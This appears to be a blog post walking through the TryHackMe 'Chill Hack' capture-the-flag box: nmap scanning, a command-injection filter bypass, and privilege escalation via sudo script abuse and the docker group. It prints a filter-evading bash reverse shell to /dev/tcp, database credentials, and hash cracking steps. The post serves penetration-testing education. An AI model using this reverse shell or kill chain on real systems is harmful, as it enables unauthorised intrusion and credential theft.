 ```yaml
---
layout: post
title:  "TryHackMe - Chill Hack"
date:   2022-05-03 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
comments: true
---
```


[Chill Hack](https://tryhackme.com/room/chillhack) is an easy-ranked box. Unfortunately, it wasn't the most fun box to do, with a handful of unrealistic and unintuitive stops along the killchain.

## Nmap Emumeration
As ever, the first thing to do is run an nmap scan to see what services are accessible to us on the box. People always have their own methodology for what command line options to use, but here are the ones I went with.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we’re working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oA`: Outputs the result of the command into several file formats. Having a persistent record of the scan to go back to later is always useful.

```bash
nmap -sC -sV -vvv -oA nmap/initial 10.10.86.64
```

It's good to do a quick basic nmap scan of the top 1000 ports first to have a starting point and then run a second more comprehensive scan in the background later. In this case, the first scan gives us pretty much all the information we'll need to proceed.

Nmap finds three open ports: port 21 running FTP, port 22 running SSH, and port 80 hosting an HTTP server.

Thanks to running the default scripts, we also know that the FTP server allows anonymous login and that there's a potentially interesting file sitting on it.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

## FTP/HTTP Enumeration
Since the FTP server is such a low-hanging fruit and it'll be very quick to check out, we'll start there. We can confirm that anonymous login does indeed work on the server, and that the file on it is accessible to us.

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

There's not much else to see there, so we'll move onto the web server. At first glance, the site seems to just be a flat HTML website without much of an attack area, so we'll pass things along to a directory brute force tool (in my case, Feroxbuster) to see if there's anything hidden from us.

Sure enough, Feroxbuster finds a `/secret` directory that seems to have a place for us to input arbitrary shell commands.

![Secret Directory](/assets/images/chillhack/2022-05-03_15-34.png)

## Command Injection
We can deduce from the note on the FTP server that there is some sort of protection in place to keep us from having free rein of the capability. Running `whoami` confirms that we do have the ability to run commands and that we'll be running as the `www-data` user.

![whoami Output](/assets/images/chillhack/2022-05-03_10-38.png)

Next we'll try running `bash -c` to see if we can get a reverse shell that way. Unsurprisingly, we trigger the filter.

![Command Filter](/assets/images/chillhack/2022-05-03_11-02.png)

A common way of bypassing these kinds of filters is escaping characters. Escape characters like `\n` or `\t` can affect how text is formatted, and escaping special characters like `\'` or `\\` lets us use special characters in places where they normally have special meaning. Escaping characters that don't have any special meaning, however, will simply output the character as normal.

![Filter Bypass](/assets/images/chillhack/2022-05-03_11-03.png)

Now that we know we can bypass the filter, we can start building out a reverse shell to give us better access to the box.

```bash
b\ash -c "b\ash -i >& /dev/tcp/10.13.14.52/9001 0>&1"
```

## Privilege Escalation
We land as `www-data` in the `/var/www/html` directory. Poking around there, it we find that there's a second web app sitting in `/var/www/files`. In there, we have a PHP file that includes a MySQL configuration.

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

Unfortunately, that password doesn't work as the `root` password, but we can still poke at the MySQL database. There's a `users` table in the `webportal` database, so we can pull a pair of MD5 hashed passwords.

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

MD5 us a very broken hashing algorithm, so we're able to just run them through CrackStation to get the passwords.

![CrackStation Output](/assets/images/chillhack/2022-05-03_11-18.png)

Unfortunately, these passwords don't work on any of the accounts on the box either.

Enumerating the accounts on the box, we have three users outside of `root`: `anurodh`, `apaar`, and `aurick`. Interestingly, we have read access to `apaar`'s home directory. Even more interestingly, there's a shell script called `.helpline.sh` with another command injection vulnerability. And even more interestingly, we can run that script as `apaar`.

```bash
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
```

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

If we input `bash` at the `msg` prompt, we land in a bash shell as the `apaar` user. From here we can grab the user flag in the `local.txt` file. We can drop an SSH key in here as well to give us a better, more firendly shell.

## Privesc 2: Electric Boogaloo
Unfortunately, `apaar` doesn't give us a lot of additional permissions, so we'll need to keep poking. Checking `netstat`, there's another service available only to localhost on port 9001 that we can check next.

```
apaar@ubuntu:~$ netstat -lpnut
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.86.64:68          0.0.0.0:*                           -
```

Since we already have SSH access, we can use SSH port forwarding to look at it on our local machine.

```bash
ssh -i apaar.key -L 9001:127.0.0.1:9001 apaar@10.10.86.64
```

Checking this new port out, it turns out it's running a web server. We're greeted with a login page.

![Login Page](/assets/images/chillhack/2022-05-03_12-54.png)

From the PHP code we found earlier, we know that this app is vulnerable to SQL injection, and from the database dump we know the usernames and passwords to log in. Either way, we get in.

![After Login](/assets/images/chillhack/2022-05-03_12-55.png)

Not much to go on here. We have to take a bit of a leap of faith and investigate the image. Turns out it has some steganography in it.

```
$ steghide info hacker-with-laptop_23-2147985341.jpg
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                     
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

The zip has one file, but it's password protected. That's nothing John The Ripper and rockyou.txt can't take care of. The PHP file includes a Base64 encoded password and a reference to Anurodh, which matches one of the usernames we found earlier.

## I Am Root
With the new password, we're able to SSH into the box as the `anurodh` user. It turns out Anurodh is a member of the `docker` group, which could be a potential escalation vector.

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

With a little help from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we can mount the filesystem into a Docker image, which will give us free rein to view whatever files we want, including the root flag in the `proof.txt` file.